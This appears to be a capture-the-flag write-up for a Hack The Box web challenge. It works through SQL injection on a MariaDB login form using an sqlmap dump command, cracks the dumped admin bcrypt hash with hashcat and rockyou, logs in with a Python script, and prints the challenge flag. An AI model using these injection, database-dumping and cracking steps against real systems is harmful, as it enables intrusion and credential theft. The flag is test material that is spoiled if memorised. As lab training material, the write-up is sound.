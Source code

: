 # KORP Terminal

Your faction must infiltrate the KORP™ terminal and gain access to the Legionaries' privileged information and find out more about the organizers of the Fray. The terminal login screen is protected by state-of-the-art encryption and security protocols.

## Writeup

In the site if we try to send an **username** equal to **'**, this error code will appear:

```json
{"error":{"message":["1064","1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''''' at line 1","42000"],"type":"ProgrammingError"}}
```

So we can use **SQL injection** on **MariaDB** with **SQLmap**:

```bash
sqlmap -u "http://83.136.252.82:33660/" --forms --dump --ignore-code 401
```

This is the output:

```
Database: korp_terminal
Table: users
[1 entry]
+----+--------------------------------------------------------------+----------+
| id | password                                                     | username |
+----+--------------------------------------------------------------+----------+
| 1  | $2b$12$OF1QqLVkMFUwJrl1J1YG9u6FdAQZa6ByxFt/CkS/2HW8GA563yiv. | admin    |
+----+--------------------------------------------------------------+----------+
```

Now we can try to crack the password:

```bash
hashcat -m 3200 '$2b$12$OF1QqLVkMFUwJrl1J1YG9u6FdAQZa6ByxFt/CkS/2HW8GA563yiv.' /usr/share/wordlists/rockyou.txt
```

With this output:

```
$2b$12$OF1QqLVkMFUwJrl1J1YG9u6FdAQZa6ByxFt/CkS/2HW8GA563yiv.:password123
```

Now we can extract the flag:

```python
#!/usr/bin/python3
import requests

ip = "83.136.252.82"
port = 33660

url = f"http://{ip}:{port}/"

username = "admin"
password = "password123"

data = {
    'username' : username,
    'password' : password
}

req = requests.post(url, data=data)
print(req.text)
```

This is the flag:

```
HTB{t3rm1n4l_cr4ck1ng_sh3n4nig4n5}
```